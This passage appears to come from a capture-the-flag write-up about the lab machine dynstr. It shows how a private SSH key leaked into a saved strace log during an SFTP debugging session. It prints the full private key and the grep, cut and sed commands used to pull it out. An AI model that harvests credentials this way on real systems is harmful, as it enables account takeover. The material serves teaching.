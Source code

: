 The files seem to be the output of a debugging session the user is doing. The files can be viewed with `cat` or `less`, but it’s neat to see them with `scriptreplay [.timing file] [.script file]`:

![](https://0xdfimages.gitlab.io/img/scriptreplay.gif)
*If you see a shell as bindmgr, that’s because it’s part of the reply. Wait for the GIF to restart, or refresh the page to see it from the start.*

The users is trying to troubleshoot an SFTP connection using `curl`, and the connection is using the key pair for auth. The important part of the replay is when the admin attaches `strace` to the process, and even saves that to a file:

[![image-20210613153827802](https://0xdfimages.gitlab.io/img/image-20210613153827802.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20210613153827802.png)

`strace` will capture the private key as it’s used. `grep` finds it easily:

```

www-data@dynstr:/home/bindmgr/support-case-C62796521$ grep BEGIN strace-C62796521.txt 
15123 read(5, "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1\n42kuvUhxLultlMRCj1pnZY/1sJqTywPGalR7VXo+2l0Dwx3zx7kQFiPeQJwiOM8u/g8lV3\nHjGnCvzI4UojALjCH3YPVuvuhF0yIPvJDessdot/D2VPJqS+TD/4NogynFeUrpIW5DSP+F\nL6oXil+sOM5ziRJQl/gKCWWDtUHHYwcsJpXotHxr5PibU8EgaKD6/heZXsD3Gn1VysNZdn\nUOLzjapbDdRHKRJDftvJ3ZXJYL5vtupoZuzTTD1VrOMng13Q5T90kndcpyhCQ50IW4XNbX\nCUjxJ+1jgwAAA8g3MHb+NzB2/gAAAAdzc2gtcnNhAAABAQDF4pkc7L5EaGz6CcwSCx1Bqz\nuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a\nXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38P\nZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk\n+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs\n4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq\nxTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD\nPswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k\nobFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l\nu291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS\nTbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A\nTyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE\nBNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv\nC79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX\nWv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt\nU96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ\nb6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5\nrlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG\njGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==\n-----END OPENSSH PRIVATE KEY-----\n", 4096) = 1823

```

A bit of `cut` and `sed` will isolate the key:

```

www-data@dynstr:/home/bindmgr/support-case-C62796521$ grep BEGIN strace-C62796521.txt | cut -d'"' -f2 | sed 's/\\n/\'$'\n''/g'
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1
...[snip]...
rlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG
jGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==
-----END OPENSSH PRIVATE KEY-----

```
